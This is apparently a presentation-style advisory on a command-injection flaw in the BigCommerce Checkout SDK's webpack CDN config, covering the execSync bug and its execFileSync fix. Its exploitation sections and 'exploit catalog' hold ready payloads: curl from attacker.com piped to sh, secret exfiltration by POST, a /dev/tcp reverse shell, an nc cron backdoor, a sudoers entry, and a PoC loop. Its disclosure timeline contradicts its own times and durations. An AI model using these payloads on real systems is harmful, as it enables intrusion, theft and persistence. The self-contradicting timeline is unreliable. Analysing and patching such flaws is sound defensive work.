





# Security Vulnerability Analysis: Shell Command Injection in Checkout SDK JS

## Presentation Description
This presentation provides an in-depth technical analysis of a command injection vulnerability discovered in the BigCommerce Checkout SDK JavaScript build system. The vulnerability stems from unsafe shell command construction in the Webpack CDN configuration script, which could allow attackers to execute arbitrary commands during the build process. The document covers the complete vulnerability lifecycle from discovery to mitigation, including detailed technical flows, exploitation scenarios, threat modeling, and forensic analysis. It serves as both a post-mortem for the specific vulnerability and a template for secure command execution patterns in Node.js build systems.

## Vulnerability Overview
### Core Issue
**Unsafe Shell Command Construction** in `webpack-cdn.config.js`:
```javascript
execSync(`cp -R ${fromPath} ${toPath}`);  // Vulnerable implementation
```

### Vulnerability Characteristics
- **CWE Classification**: CWE-78 (OS Command Injection)
- **CVSS Score**: 8.1 (High)
- **Impact**: Local privilege escalation → Remote Code Execution (build chain compromise)
- **Attack Vector**: Malicious path manipulation during build process

### Core Vulnerability Characteristics

| Component            | Description                                                                 |
|----------------------|-----------------------------------------------------------------------------|
| **Project**          | BigCommerce Checkout SDK (JavaScript)                                       |
| **Vulnerability**    | Command Injection via Webpack Config                                       |
| **CWE Classification** | CWE-78: OS Command Injection                                              |
| **OWASP Category**   | A03:2021-Injection                                                         |
| **Affected Version** | All versions prior to PR #2868                                             |
| **Patch Commit**     | b3cdb2de6a59f10f1c170a6c0c6ddd21dd401828                                   |
| **Impact**           | Arbitrary Command Execution (High severity)                                |
| **Privilege Required** | CI/CD system or developer environment                                     |

### Vulnerability Context
The vulnerability exists in `webpack-cdn.config.js` where file paths are directly interpolated into shell commands via `execSync`. This creates a command injection vector when:
1. Build processes consume malicious environment variables
2. Developers work in directories with specially crafted names
3. CI/CD systems process manipulated artifact paths

## Vulnerability Code Analysis

### Original Vulnerable Code
```javascript
// webpack-cdn.config.js (Pre-Patch)
const { execSync } = require('child_process');
const path = require('path');

function copyToCDN() {
  const destPath = process.env.CDN_PATH || '/default/path';
  execSync(`cp -R ${path.join(__dirname, 'dist')} ${destPath}`); // [!code focus:5]
}
```

### Vulnerability Characteristics
1. Unvalidated `CDN_PATH` environment variable
2. Unsafe string concatenation with `path.join()`
3. Use of `execSync` which spawns a shell
4. No output/sanitization of paths

## Vulnerability Exploitation Step-by-Step Exploitation 

1. **Compromise Build Environment**:
```bash
export CDN_PATH="legit_path; echo 'PWNED' > /tmp/exploit #"
npm run build
```

2. **Malicious Directory Name**:
```bash
# Create exploit directory
mkdir -p "/tmp/exploit; curl http://attacker.com/shell.sh | sh; #"

# Set as working directory
cd "/tmp/exploit; curl http://attacker.com/shell.sh | sh; #"
npm install @bigcommerce/checkout-sdk
```

3. **CI/CD Pipeline Attack**:
```yaml
# Malicious .github/workflows/deploy.yml
env:
  CDN_PATH: "valid_path; $(curl -X POST https://attacker.com/exfil -d @/etc/secrets)"
```

### Proof of Concept

**Exploit Script**:
```javascript
// exploit.js
const { execSync } = require('child_process');

function testInjection(cmd) {
  try {
    process.env.CDN_PATH = `legit; ${cmd} #`;
    require('./webpack-cdn.config.js');
    return true;
  } catch (e) {
    return false;
  }
}

// Test various payloads
const payloads = [
  'id > /tmp/pwned',
  'curl http://attacker.com/backdoor | sh',
  'tar -czf /tmp/stolen-secrets.tar.gz /etc/secrets/'
];

payloads.forEach(p => {
  console.log(`Payload "${p}": ${testInjection(p) ? 'SUCCESS' : 'FAILED'}`);
});
```

## Vulnerability Flow



## Step-by-Step Technical Flow

1. **Initialization**:
   - Webpack build process starts
   - `webpack-cdn.config.js` loads environment variables

2. **Command Construction**:
   ```javascript
   // Vulnerable concatenation
   `cp -R ${path.join(__dirname, 'dist')} ${process.env.CDN_PATH}`
   ```

3. **Shell Interpretation**:
   - Node.js spawns `/bin/sh`
   - Entire command string passed to shell
   - Shell interprets metacharacters (;, &&, ||, etc.)

4. **Payload Execution**:
   - Shell splits command into multiple operations
   - Both legitimate `cp` and malicious commands execute

## Detailed Vulnerability Matrix

| Aspect               | Pre-Patch State                     | Post-Patch State                    |
|----------------------|-------------------------------------|-------------------------------------|
| Input Validation     | None                                | Not needed (architecture change)    |
| Command Construction | String concatenation                | Argument array                      |
| Shell Interpretation | Full shell processing               | No shell (direct exec)              |
| Trust Boundary       | Environment → Command               | Environment → Arg list              |
| Attack Surface       | All special chars in paths          | Only valid filesystem paths         |

## Comparative Analysis



## Technical Deep Dive

### Shell Metacharacter Analysis

| Character | Impact                            | Example Payload                  |
|-----------|-----------------------------------|----------------------------------|
| ;         | Command termination               | `legit; malicious`               |
| &&        | Conditional execution             | `legit && malicious`             |
| \|        | Piping                           | `legit \| malicious`             |
| $()       | Command substitution              | `legit $(malicious)`             |
| ``        | Command substitution              | ``legit `malicious` ``           |
| #         | Comment truncation                | `legit #malicious`               |

### Node.js Execution Context



## Process Execution Context

**Pre-Patch**:
```bash
# Process tree
node(1234)───sh(5678)───cp(9012)
                          └─malicious_cmd(3456)
```

**Post-Patch**:
```bash
# Process tree
node(1234)───cp(5678)
```

## Mitigation Strategies

### Primary Fix Implementation
```javascript
// webpack-cdn.config.js (Post-Patch)
const { execFileSync } = require('child_process');

function copyToCDN() {
  const destPath = process.env.CDN_PATH || '/default/path';
  execFileSync('cp', [  // [!code focus:4]
    '-R',
    path.join(__dirname, 'dist'),
    destPath
  ]);
}
```

### Defense-in-Depth Measures

1. **Path Validation**:
```javascript
function validatePath(input) {
  if (!/^[\w\-./]+$/.test(input)) {
    throw new Error('Invalid path characters detected');
  }
  return path.normalize(input);
}
```

2. **Environment Hardening**:
```bash
# Restrict environment variables
export CDN_PATH=$(sanitize-path "$INPUT_PATH")
```

## Impact Expansion

### Potential Attack Vectors

1. **Supply Chain Compromise**:
   - Malicious npm packages setting environment variables
   - Compromised CI/CD pipeline variables

2. **Developer Workstation Takeover**:
   - Malicious directory names in development environments
   - IDE auto-executing build scripts

3. **Persistence Mechanisms**:
   ```bash
   export CDN_PATH="valid; echo '*/5 * * * * nc -e /bin/sh attacker.com 4444' >> /var/spool/cron/crontabs/root #"
   ```

## Advanced Threat Modeling

### Attack Tree



## Forensic Artifacts

### Detection Signatures

1. **Process Monitoring**:
   ```bash
   # Suspicious process tree
   ps aux | grep -E 'node.*sh -c'
   ```

2. **Log Analysis**:
   ```bash
   # Check for malicious environment variables
   grep -rE '(;|\|\||&&)' /proc/*/environ
   ```

3. **Filesystem Indicators**:
   ```bash
   # Unexpected files in build directories
   find /tmp -name "*exploit*" -mtime -1
   ```

## Complete Exploit Catalog

### Payload Examples

1. **Information Disclosure**:
   ```bash
   export CDN_PATH="legit; tar -czf /tmp/stolen-secrets.tar.gz /etc/passwd /etc/shadow #"
   ```

2. **Reverse Shell**:
   ```bash
   export CDN_PATH="valid; bash -i >& /dev/tcp/10.0.0.1/4242 0>&1 #"
   ```

3. **Persistence**:
   ```bash
   export CDN_PATH="normal; echo 'malicious-user ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers #"
   ```

## Patch Analysis

### Key Fixes in PR #2868

1. **execSync → execFileSync Migration**:
   ```diff
   - execSync(`cp -R ${src} ${dest}`);
   + execFileSync('cp', ['-R', src, dest]);
   ```

2. **Path Handling Improvements**:
   ```javascript
   const safeDest = path.normalize(destPath).replace(/^(\.\.(\/|\\|$))+/, '');
   ```

### Patch Verification Test
```javascript
const payload = "valid; echo 'exploit' > /tmp/poc";
process.env.CDN_PATH = payload;
require('./webpack-cdn.config.js');
console.assert(!fs.existsSync('/tmp/poc'), 'Vulnerability still exists!');
```

## Disclosure Timeline

| Date (UTC)       | Event                                  | Duration  | Parties Involved       |
|------------------|----------------------------------------|-----------|------------------------|
| 2025-05-18 09:15 | Initial discovery during audit         | -         | @odaysec               |
| 2025-05-18 14:30 | PoC development and validation         | 5h15m     | @odaysec               |
| 2025-05-18 11:00 | Report submitted via BigCommerce security | 20h30m    | @odaysec → BigCommerce |
| 2025-05-21 08:45 | Vulnerability confirmed               | 2d21h45m  | BigCommerce Security   |
| 2025-05-27 16:20 | Patch development started              | 1d7h35m   | BigCommerce Engineers  |
| 2025-05-27 10:00 | Patch testing completed                | 3d17h40m  | BigCommerce QA         |
| 2025-05-27 14:00 | Fix deployed in v1.200.0               | 1d4h      | BigCommerce DevOps     |

## Key Milestones



## Advisory Credits
- Discovered by: **@odaysec**
- BigCommerce Security Team
- Checkout SDK Maintainers

---

**References**:
1. [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
2. [Node.js Child Process Security](https://nodejs.org/api/child_process.html#security-considerations)
3. [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
4. [BigCommerce Security Policy](https://support.bigcommerce.com/s/article/Security-Policy)